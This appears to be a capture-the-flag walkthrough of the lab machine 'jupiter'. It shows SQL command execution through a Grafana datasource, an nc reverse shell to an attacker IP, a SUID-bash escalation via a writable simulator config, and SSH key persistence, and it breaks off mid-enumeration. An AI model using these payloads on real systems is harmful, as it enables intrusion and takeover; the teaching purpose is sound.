








# jupiter

| Hostname   | Difficulty |
| ---        | ---        |
| jupiter |            |

Machine IP: 10.10.11.216 :

```bash
TARGET=10.10.11.216       # jupiter IP address
```

## Initial Reconnaissance

### Ports and services

Let's start by enumerate the exposed services :

```shell
# -p- : ports to scan. "-" is for all ports
NMAP_TARGET=10.10.11.216 # target to scan
# -T4 : timing template (0(slower) to 5(faster) )
# -Pn : Treat all hosts as online -- skip host discovery
# --min-rate=1000 : Send packets no slower than <number> per second
NMAP_OUTPUT=$NMAP_TARGET-nmap-enumports # Save output to file(s)
nmap -p- $NMAP_TARGET -T4 -Pn --min-rate=1000 -oA $NMAP_OUTPUT
```

Result:

```text
Nmap scan report for 10.10.11.216
Host is up (0.025s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.02 seconds

```

### web service

```shell
whatweb $TARGET
```

Result:

```text
http://10.10.11.216 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.216], RedirectLocation[http://jupiter.htb/], Title[301 Moved Permanently], nginx[1.18.0]
```

Add its name definition so we can use its name :

```shell
echo "$TARGET   jupiter.htb" >> /etc/hosts
```


```shell
firefox http://jupiter.htb &
```


```shell
gobuster dir -w /opt/seclists/Discovery/Web-Content/raft-medium-files.txt -u http://jupiter.htb/ -t 30 --timeout 30s -b 301,404
```

```text
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jupiter.htb/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /opt/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Negative Status codes:   301,404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 30s
===============================================================
2023/07/29 18:09:12 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 19680]
/.htaccess            (Status: 403) [Size: 162]
/contact.html         (Status: 200) [Size: 10141]
/.                    (Status: 200) [Size: 19680]
/about.html           (Status: 200) [Size: 12613]
/.html                (Status: 403) [Size: 162]
/services.html        (Status: 200) [Size: 11969]
/.htpasswd            (Status: 403) [Size: 162]
/.htm                 (Status: 403) [Size: 162]
/portfolio.html       (Status: 200) [Size: 11913]
/.htpasswds           (Status: 403) [Size: 162]
/.htgroup             (Status: 403) [Size: 162]
/.htaccess.bak        (Status: 403) [Size: 162]
/.htuser              (Status: 403) [Size: 162]
/.htc                 (Status: 403) [Size: 162]
/.ht                  (Status: 403) [Size: 162]
Progress: 16986 / 17130 (99.16%)
===============================================================
```


Enumerate sub domains on this web server (vhosts) :

```shell
wfuzz -c -H "Host: FUZZ.jupiter.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://jupiter.htb --hc 301
```

```text
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://jupiter.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload                      
=====================================================================

000001955:   200        211 L    798 W      34390 Ch    "kiosk"                      

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0
```

So we have a vhost "kiosk.jupiter.htb", we can add this to our known hosts :

```shell
echo "$TARGET   jupiter.htb  kiosk.jupiter.htb" >> /etc/hosts
```


```shell
firefox http://kiosk.jupiter.htb &
```


This is a graphana dashboard



When analyzing the HTTP requests while browsing on this site, a raw postgreSQL a done :



We can also notice in the response the header `Server: nginx/1.18.0 (Ubuntu)`, so the target is a Linux server.

We can send this HTTP request tro the repeater tool, and analyse this database :



Nothing seems valuable when exploring the database, so let's try to get a reverse shell

## Initial access

### Exploitation

From [PauloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution), we can validate the remote command execution with : 

```text
DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'id'; SELECT * FROM cmd_exec; DROP TABLE IF EXISTS cmd_exec;
```

```text
uid=114(postgres) gid=120(postgres) groups=120(postgres),119(ssl-cert)
```

We can now start to enumerate the host to identify "nc" and get a reverse shell.

From [https://www.revshells.com/](https://www.revshells.com/):

- Listener type: nc
- Reverse
  - OS: Linux
  - payload : nc mkfifo

The payload: 

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.7 8888 >/tmp/f`

We can execute the query :

```text
DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.7 8888 >/tmp/f'; SELECT * FROM cmd_exec; DROP TABLE IF EXISTS cmd_exec;
```

The listener to recieve the shell :

`rlwrap nc -lvnp 8888`

We get a shell, but the shell die after a little time due to some timeout on the HTTP proxy :

```shell
rlwrap nc -lvnp 8888
```

Result:

```text
sh: 0: can't access tty; job control turned off
whoami
postgres
```

### Maintaining access

## Post-Exploitation

### Host Reconnaissance

From /etc/passwd, there are a few users :

```text
juno:x:1000:1000:juno:/home/juno:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
grafana:x:115:121::/usr/share/grafana:/bin/false
jovian:x:1001:1002:,,,:/home/jovian:/bin/bash
```

In order to automate the reconaissance, we can execute commands from the command line, based on previousHTP request :

```shell
PAYLOAD="ps -efH"
curl -s -k -X 'POST' -H 'content-type: application/json' --data-binary $'{\"queries\":[{\"refId\":\"A\",\"datasource\":{\"type\":\"postgres\",\"uid\":\"YItSLg-Vz\"},\"rawSql\":\"DROP TABLE IF EXISTS cmd_exec;CREATE TABLE cmd_exec(cmd_output text);COPY cmd_exec FROM PROGRAM \''$PAYLOAD$'\'; SELECT * FROM cmd_exec; DROP TABLE IF EXISTS cmd_exec;\",\"format\":\"table\",\"datasourceId\":1,\"intervalMs\":60000,\"maxDataPoints\":453}],\"range\":{\"from\":\"2023-07-29T10:27:48.459Z\",\"to\":\"2023-07-29T16:27:48.459Z\",\"raw\":{\"from\":\"now-6h\",\"to\":\"now\"}},\"from\":\"1690626468459\",\"to\":\"1690648068459\"}' http://kiosk.jupiter.htb/api/ds/query | jq -C
```

Result:

```text
jovian 1174 1 0 15:59 ? 00:00:00 /usr/bin/python3 /usr/local/bin/jupyter-notebook --no-browser /opt/solar-flares/flares.ipynb
```

But /opt/solar-flares/ (`PAYLOAD="ls -la /opt/solar-flares/""`) is only readable by user jovian and the group science.

We can also so listening ports :

```shell
PAYLOAD="netstat -tnlp"
```

Result:

```text
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      1184/postgres       
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -   
```

So there is some applications listening on local ports 3000 and 8888.

Now let's open a quick shell with the payload for a reverse shell, in order to use pspy64 to monitor process execution :

`PAYLOAD="rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.7 8888 >/tmp/f"`

The listener to recieve the shell :

`rlwrap nc -lvnp 8888`

Prepare on the attacker box :

```shell
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
updog
```

On the target host, download the application and execute it :

```shell
wget http://10.10.14.7:9090/pspy64 -O /tmp/pspy64
chmod +x /tmp/pspy64
/tmp/pspy64
```

```text
CMD: UID=0     PID=1364   | /usr/sbin/CRON -f -P 
CMD: UID=0     PID=1365   | /usr/sbin/CRON -f -P 
CMD: UID=1000  PID=1366   | /bin/bash /home/juno/shadow-simulation.sh 
CMD: UID=1000  PID=1367   | rm -rf /dev/shm/shadow.data 
CMD: UID=1000  PID=1368   | 
CMD: UID=1000  PID=1371   | sh -c lscpu --online --parse=CPU,CORE,SOCKET,NODE 
CMD: UID=1000  PID=1372   | 
CMD: UID=1000  PID=1377   | /usr/bin/python3 -m http.server 80 
CMD: UID=1000  PID=1378   | /home/juno/.local/bin/shadow /dev/shm/network-simulation.yml 
CMD: UID=1000  PID=1380   | /usr/bin/curl -s server 
CMD: UID=1000  PID=1382   | /usr/bin/curl -s server 
```

From the cron, the user script `/home/juno/shadow-simulation.sh` is launched. Then `/home/juno/.local/bin/shadow /dev/shm/network-simulation.yml` is executed.

We can notice that we have a write access to `/dev/shm/network-simulation.yml` :

```shell
ls -la /dev/shm/
```

Result:

```text
total 32
drwxrwxrwt  3 root     root       100 Jul 29 20:58 .
drwxr-xr-x 20 root     root      4020 Jul 29 20:42 ..
-rw-rw-rw-  1 juno     juno       815 Mar  7 12:28 network-simulation.yml
-rw-------  1 postgres postgres 26976 Jul 29 20:42 PostgreSQL.1252405774
drwxrwxr-x  3 juno     juno       100 Jul 29 20:58 shadow.data
```

/dev/shm/network-simulation.yml :

```text
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s
```

This seems to be related to "The Shadow Simulator" and the spec is [here](https://shadow.github.io/docs/guide/shadow_config_spec.html).

In order to move from user postgresql to user juno, we will use a SUID bit on bash. In 2 steps, we will add some commands to be executed as juno user:

```text
cat <<EOF >>/dev/shm/network-simulation.yml
    - path: cp
      args: /usr/bin/bash /tmp/bash
EOF
```

```text
cat <<EOF >>/dev/shm/network-simulation.yml
    - path: chmod
      args: u+s /tmp/bash
EOF
```

Then use this bash to become juno user :

```shell
/tmp/bash -p
whoami
juno
ls -la
total 52
drwxr-x---  8 juno juno 4096 May  4 12:10 .
drwxr-xr-x  4 root root 4096 Mar  7 13:00 ..
lrwxrwxrwx  1 juno juno    9 Mar  7 10:45 .bash_history -> /dev/null
-rw-r--r--  1 juno juno  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 juno juno 3792 Mar  7 10:00 .bashrc
drwx------  3 juno juno 4096 May  4 18:59 .cache
drwxrwxr-x  5 juno juno 4096 Mar  7 10:02 .cargo
drwxrwxr-x  5 juno juno 4096 Mar  7 12:08 .local
-rw-r--r--  1 juno juno  828 Mar  7 10:00 .profile
drwxrwxr-x  6 juno juno 4096 Mar  7 10:01 .rustup
drwxrwxr-x 12 juno juno 4096 Mar  9 10:31 shadow
-rwxrwxr-x  1 juno juno  174 Apr 14 14:28 shadow-simulation.sh
drwx------  2 juno juno 4096 Mar  7 09:55 .ssh
-rw-r-----  1 root juno   33 Aug 10 20:19 user.txt

cd .ssh
ls -la
total 8
drwx------ 2 juno juno 4096 Mar  7 09:55 .
drwxr-x--- 8 juno juno 4096 May  4 12:10 ..
-rw------- 1 juno juno    0 Mar  7 09:55 authorized_keys
```

```text
ssh-keygen -t rsa -b 4096 -f jutiperpwn
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in jutiperpwn
Your public key has been saved in jutiperpwn.pub
The key fingerprint is:
SHA256:620VYzGQsiVohyEWyv+5OClseM91FRrtJVRoOziXkLQ root@exegol-htb
The key's randomart image is:
+---[RSA 4096]----+
|    +..=..o=.    |
| . o .+ *+= o    |
|  o  . .EO+o.o   |
|   .    ++=++    |
|    .   Sooo o   |
|     . . o  .    |
| o   .+ o  .     |
|. =.oo + ..      |
| o o+.. ...      |
+----[SHA256]-----+
```

Copy the content of "jutiperpwn.pub" file into authorized_keys

```shell
cat <<EOF >>/home/juno/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDFkWNDnvSmepgjI8sIisgWkujcYvdTuHGRHsCkvHfqPQF/qF2YNzJn+h+hRFykC82n+a7hpPZ9HdW62RCOv+edY/rjTgQ9k5QqSQfivQgbAzKGHR5Gawi0MTkrPukEpBBfygW+3P+Meq9XHc7Jx60ajBf/dG9yn1N+EkJ9jdsjU0EbH5DIkGSdOXL5d2zRwqhgxMsUCOUP9MiFKE/9zYlFN+XPIWZCic/FbgLwVrEsRIZGfdy/IqipXH7aUm+39qSVNkUBXuLdnkAGicw1A8YXqlCKLU3luNJdVmnFFu5BDvLsllhhcvxXdutg6CGgQoNYcpNrRqK6dAbLdURpWRJQMzQWFH1FJ5JoyuDbGHUv7GSplLh0m7T47LtYnRkErCRSSKp/sn+ednLp4eX9xgMiNxdJ9PYZB0Eu1xflozc3e6KfxWTrFix/sMWJWlunOulCLhm1fyz3RD+VgHh+LBj+9YKMfkwAGIbvxxEXJZ6G9ttGl2Tcjsi9xCPSLWa0WEyUTPg4jm5WcY8N5aNMvXI1a19tjgtt69XcDDbTsH39ZcWiELwIo+ynhLK80GMm1HmVQOAbi//BSaei+NqzDPC9XJXAlmGK3aTattAkxXztrZZTtnIMo6qTNSUyCm4dCGe49iTD7M2PHgJZpPh8sU7LlbCv1a8sJitbiIHffOtNlw== root@exegol-htb
EOF
```

Then, from attacker host, open a SSH shell :

```shell
ssh -i jutiperpwn juno@jupiter.htb
```


```text
netstat -tnlp

Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -          
```

Let's have look to the port 8888 :

```text
curl -v http://127.0.0.1:8888
*   Trying 127.0.0.1:8888...
* Connected to 127.0.0.1 (127.0.0.1) port 8888 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8888
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 302 Found
< Server: TornadoServer/6.2
< Content-Type: text/html; charset=UTF-8
< Date: Thu, 10 Aug 2023 21:51:03 GMT
< Location: /tree?
< Content-Length: 0
< 
* Connection #0 to host 127.0.0.1 left intact
```

It's a HTP service with a redirection.

Using the SSH access, let's forward that port 8888 to examine it :

```shell
ssh -i jutiperpwn -L 8888:127.0.0.1:8888 juno@jupiter.htb
```

On our attacker host, let's open 

```shell
firefox http://127.0.0.1:8888
```

Thi is a JUpyter notebook :



As previously noticed, 

/opt/solar-flares/

```text
ls -la
total 2608
drwxrwx--- 4 jovian science    4096 May  4 18:59 .
drwxr-xr-x 3 root   root       4096 May  4 18:59 ..
-rw-rw---- 1 jovian science  646164 Mar  8 09:11 cflares.csv
-rw-rw---- 1 jovian science  708058 Mar  8 09:11 flares.csv
-rw-rw---- 1 jovian science   10230 Mar  8 09:11 flares.html
-rw-r----- 1 jovian science  234001 Mar  8 13:06 flares.ipynb
drwxrwxr-x 2 jovian science    4096 May  4 18:59 .ipynb_checkpoints
drwxrwxr-t 2 jovian science    4096 Aug 10 20:19 logs
-rw-rw---- 1 jovian science 1010424 Mar  8 09:11 map.jpg
-rw-rw---- 1 jovian science   26651 Mar  8 09:11 mflares.csv
-rwxr-xr-x 1 jovian science     147 Mar  8 11:37 start.sh
-rw-rw---- 1 jovian science    1992 Mar  8 09:11 xflares.csv
```

```text
